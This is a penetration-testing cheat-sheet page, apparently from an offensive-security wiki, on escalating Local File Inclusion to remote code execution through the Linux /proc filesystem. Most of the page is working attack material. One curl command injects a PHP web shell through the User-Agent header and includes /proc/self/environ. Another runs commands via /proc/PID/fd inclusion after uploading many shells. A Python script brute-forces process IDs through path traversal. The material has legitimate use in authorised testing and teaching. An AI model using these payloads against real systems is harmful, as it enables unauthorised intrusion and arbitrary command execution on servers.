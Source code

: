 # /proc

## Theory

**/proc** is very special in that it is also a virtual filesystem. It's sometimes referred to as a process information pseudo-file system. It doesn't contain 'real' files but runtime system information (e.g. system memory, devices mounted, hardware configuration, etc).

We may use it to gain remote code execution using a LFI vulnerability&#x20;

## Practice

{% tabs %}
{% tab title="/proc/self/environ" %}
Like a log file, send the payload in the User-Agent, it may be reflected inside the /**proc/self/environ** file

```bash
# Sending a request to $URL with a malicious user-agent
# Accessing the payload via LFI
curl --user-agent "<?php passthru(\$_GET['cmd']); ?>" $URL/?parameter=../../../proc/self/environ
```
{% endtab %}

{% tab title="/proc/*/fd/*" %}
If you can upload files but don't where they are located on the disk, you may use this method.

Upload a lot of shells (for example : 100), and then include the /proc/$PID/fd/$FD in your LFI:

```bash
# Accessing the payload via LFI
curl $URL?page=/proc/$PID/fd/$FD?cmd=id
```

You can brute force PID using this script, the adapt it to brute force FD

```python
import requests
import re

print("Running: ") 
for x in range(0,10000):

	url = "http://vulnerable.website/../../../../../../proc/"+ str(x) +"/cmdline"
	r = requests.get(url)
	length_of_resp = len(r.content)
	content = r.content
	
	if (length_of_resp > 150):
		print("FOUND PROCESS") 
		print("URL:" + r.url) 	
		print("Length:" + str(length_of_resp))
		print("Result:", re.split("/cmdline/" , str(content) ) )
		print("#####################################\n") 
```
{% endtab %}
{% endtabs %}
